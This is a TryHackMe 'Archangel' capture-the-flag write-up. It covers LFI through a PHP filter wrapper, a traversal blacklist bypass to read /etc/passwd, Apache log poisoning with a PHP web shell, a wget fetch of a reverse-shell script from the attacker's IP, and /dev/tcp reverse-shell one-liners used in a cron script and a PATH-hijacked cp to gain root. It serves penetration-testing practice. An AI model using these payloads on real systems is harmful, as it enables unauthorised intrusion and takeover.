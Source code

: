 # TryHackMe (Archangel)

## Challenge: 
![chall desc 1](img/archangel/chall%20desc%201.jpg)
![chall desc 2](img/archangel/chall%20desc%202.jpg)
![chall desc 3](img/archangel/chall%20desc%203.jpg)

## Solution: 
This challenge requires us to use Local File Inclusion (LFI) to obtain Remote Code Execution (RCE), perform horizontal and vertical privilege escalation.

To start off, I ran `threader3000` which showed that ports 22 and 80 were open. Next, I ran an Nmap scan on the 2 open ports and found the following.

![pic 1](img/archangel/1.jpg)

Heading to the website, I found that there exists a `mafialive.thm` domain.

![pic 2](img/archangel/2.jpg)

Suspecting that the web server could be configured to accept [virtual hosts](https://httpd.apache.org/docs/2.4/vhosts/examples.html), I added the newly found domain to resolve to the box's IP address. 


![pic 3](img/archangel/3.jpg)

Afterwards, I visited `mafialive.thm` site which gave me the first flag.

![pic 4](img/archangel/4.jpg)

Moving on I ran dirsearch and found a suspicious endpoint called `test.php`. 

![pic 5](img/archangel/5.jpg)

Clicking on the button, we were redirected to the site `mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php`. 

![pic 6](img/archangel/6.jpg)

This seems to be vulnerable to [LFI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter). Then, I tried to view the contents of `test.php`. However, I was unable to do so as seen from the screenshot below.

![pic 6](img/archangel/7.jpg)

Using the PHP Filter wrapper to encode the contents of `test.php` in Base64, I was able to obtain the following.

![pic 6](img/archangel/8.jpg)

Decoding the exfiltrated base64 encoded string, I obtained `test.php` script. The blacklist blocks strings that contain `../..` or strings that do not include `/var/www/html/development_testing`.

![pic 6](img/archangel/9.jpg)

To get around the `../..` blacklist, I could substitute it with `.././..` instead. As such, I was able to view `/etc/passwd` using by giving the GET parameter as `/var/www/html/development_testing/..//..//..//..//etc/passwd`.

![pic 6](img/archangel/10.jpg)

Moving on, I decided to use Log Poisoning to obtain RCE. Firstly, I needed to make sure that I was able to view the Apache access log files. Using the command `/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log`, I was able to view the log files.

![pic 6](img/archangel/11.jpg)

Next, I put in simple PHP webshell using the PHP one-liner command `<?php system($_GET['cmd']); ?>`. Using the command `/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=ls`, I was able to view the files in the current directory, proving that RCE is possible.
![pic 6](img/archangel/12.jpg)

Now, it is time to obtain a reverse shell. Firstly, I used Pentest Monkey's PHP Reverse Shell Script and served it on my local host. Next, I used `wget` command to allow the web server to obtain a copy of the PHP reverse shell script. The full command I used was `/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=wget+http%3a//10.11.67.208%3a8023/php-reverse-shell.php`. 

![pic 6](img/archangel/13.jpg)

Next, I used the `cmd=ls` to verify if the PHP reverse shell has been copied. Indeed, it was present in the web server.

![pic 6](img/archangel/14.jpg)

Heading to the `php-reverse-shell.php`, I was able to obtain a reverse shell on my Netcat listener.

![pic 6](img/archangel/15.jpg)

Heading to the crontab, I saw a scheduled job running `/opt/helloworld.sh` every minute. 
![pic 6](img/archangel/16.jpg)

Moving on, I edited `/opt/helloworld.sh` to `0<&196;exec 196<>/dev/tcp/10.11.67.208/8080; sh <&196 >&196 2>&196`. This allowed me to obtain a reverse shell on port 8080.

![pic 6](img/archangel/17.jpg)

Next, I found a `secret` folder inside archangel home directory. This contains the `backup` file which has the SUID bit set.

![pic 6](img/archangel/18.jpg)

Decompiling the file on IDA Pro, I found that the command `cp /home/user/archangel/myfiles/* /opt/backupfiles`. 

![pic 6](img/archangel/19.jpg)

Therefore, I needed to create my own `cp` command which is a reverse shell to obtain root privileges. The `cp` file I created is `0<&196;exec 196<>/dev/tcp/10.11.67.208/4444; sh <&196 >&196 2>&196`. Next, I added the location where I saved the `cp` file as the top of the PATH, allowing our `cp` file to be executed when it is being called.

![pic 6](img/archangel/20.jpg)

On my netcat listener, I was able to obtain the root flag. 
![pic 6](img/archangel/21.jpg)
![pic 6](img/archangel/22.jpg)